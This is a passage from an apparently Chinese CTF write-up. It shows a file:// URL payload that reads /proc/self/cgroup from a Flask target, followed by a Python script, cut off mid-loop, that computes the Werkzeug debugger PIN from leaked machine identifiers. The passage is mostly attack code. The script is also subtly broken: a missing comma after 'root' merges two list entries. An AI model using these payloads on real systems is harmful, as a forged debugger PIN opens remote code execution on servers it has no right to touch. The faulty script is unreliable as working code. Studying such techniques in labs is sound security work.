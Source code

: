 - 然后取`/proc/self/cgroup`并且只读取第一行，并以从右边算起的第一个`/`为分隔符

```
?url=file:///proc/self/cgroup&lolita[]=
```

![在这里插入图片描述](assets/b8ec002bb973499daf14022354899e9d.png)计算pin码脚本如下

```python
import hashlib
from itertools import chain
import time
probably_public_bits = [
    'root'  
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '209308333341629',  
    '8cab9c97-85be-4fb4-9d17-29335d7b2b8adocker-de0acd954e28d766468f4c4108e32529318e5e4048153309680469d179d6ceac.scope'
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
```